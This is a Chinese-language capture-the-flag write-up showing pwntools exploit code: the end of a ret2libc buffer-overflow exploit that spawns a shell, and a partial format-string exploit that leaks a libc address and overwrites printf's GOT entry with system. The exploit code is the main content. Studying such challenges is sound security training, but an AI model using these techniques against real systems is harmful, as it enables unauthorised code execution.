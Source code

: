```python

addr = u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))
print(hex(addr))

libc_base = addr - lib.sym['puts']
system = libc_base + lib.sym['system']
binsh = libc_base + next(lib.search('/bin/sh'))

p.recvuntil(b"!!!!\n")

payload = b'A' * (0x50 + 8) + p64(ret) + p64(rdi) + p64(binsh) + p64(system)
p.sendline(payload)

p.interactive()
```
运行后获取`shell`
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020241005215455.png)
PS:两个payload构造的时候涉及的栈堆平衡还不是很懂，这里属于试错试出来的

### easy fmt
首先第一次遇到给ld-linux的题目，查了一下需要patchelf后把libc版本弄对
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020241005215657.png)
主要函数这里可以看出可以利用格式化字符串漏洞，用gdb调试一下
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020241005215834.png)
可以看到`canary`(这道题没用)和`__libc_start_main+128`
思路很明显，第一次，利用格式化字符串漏洞泄露`__libc_start_main`的地址后可以获取基址，从而获取`system`函数的地址，同时获取`printf`函数的got表地址；第二次，利用格式化字符串漏洞将`printf`函数换为`system`函数；第三次，输入`/bin/sh`，使`printf`函数实际执行`system`获取shell
exp:
```python
from pwn import *
import pwnlib.gdb

context(arch='amd64', os='linux')
context.log_level = 'debug'
local = True
if local:
    p = process('./ez_fmt')
    pwnlib.gdb.attach(p, 'b vuln')
else:
    p = remote('39.106.48.123', 28643)

libc = ELF('./libc.so.6')
elf = ELF('./ez_fmt')

offset = 8
payload = '%39$p'
p.recvuntil(b'data: \n')
p.sendline(payload)
receive = p.recvuntil(b'\n')
main_addr = int(receive, 16) - 128
log.info("main_addr: " + hex(main_addr))

printf_got = elf.got['printf']

base = main_addr - libc.symbols['__libc_start_main']
system_addr = base + libc.symbols['system']
log.info("system_addr: " + hex(system_addr))
print("printf_got: ", hex(printf_got))

payload = fmtstr_payload(offset, {printf_got: system_addr}, write_size='int')
  
```